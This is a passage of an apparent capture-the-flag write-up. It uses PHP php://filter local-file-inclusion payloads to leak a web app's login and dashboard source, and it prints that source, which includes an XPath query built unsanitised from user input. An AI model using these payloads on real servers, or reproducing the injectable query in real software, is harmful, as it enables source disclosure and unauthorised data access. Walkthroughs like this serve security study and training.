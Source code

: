  ```php://filter/convert.base64-encode/resource=dev/login.php``` 
            <form action="login.php" method="POST">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required><br>

                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required><br>

                <button type="submit">Login</button>
                <?php if (isset($loginError)) { ?>
                    <p class="error-message"><?php echo $loginError; ?></p>
                <?php } ?>
            </form>
        </div>
    </div>
</body>
</html>

 ```

 9. Third payload to access /dev/dashboard.php - 
 ```php://filter/convert.base64-encode/resource=dev/dashboard.php``` which gives reference researchers.xml

 researchers.xml

 ```html
 <?php
session_start();

if(isset($_SESSION["is_dev"]) && $_SESSION["is_dev"] === FALSE){
    unset($_SESSION);
    header("Location: login.php");
    exit();
}

// Check if the user is logged in, otherwise redirect to the login page
if (!isset($_SESSION["username"])) {
    header("Location: login.php");
    exit();
}

// Logout functionality
if ($_SERVER["REQUEST_METHOD"] === "POST" && isset($_POST["logout"])) {
    session_destroy(); // Destroy the session
    header("Location: login.php"); // Redirect to login page
    exit();
}

// Search functionality
$searchResults = [];
if ($_SERVER["REQUEST_METHOD"] === "GET" && isset($_GET["search"])) {
    $searchName = $_GET["searchName"];
    $xmlDoc = new DOMDocument();
    $xmlDoc->load("data/researchers.xml");
    $xpath = new DOMXPath($xmlDoc);
    if($searchName !== ""){
        $query = "//researchers/researcher[contains(name, '$searchName')]";
        $searchResults = $xpath->query($query);
    } else {
        $query = "//researchers/researcher[contains(name, 'John Doe')]";
        $searchResults = $xpath->query($query);
    }
}
?>
<!DOCTYPE html>
 ```
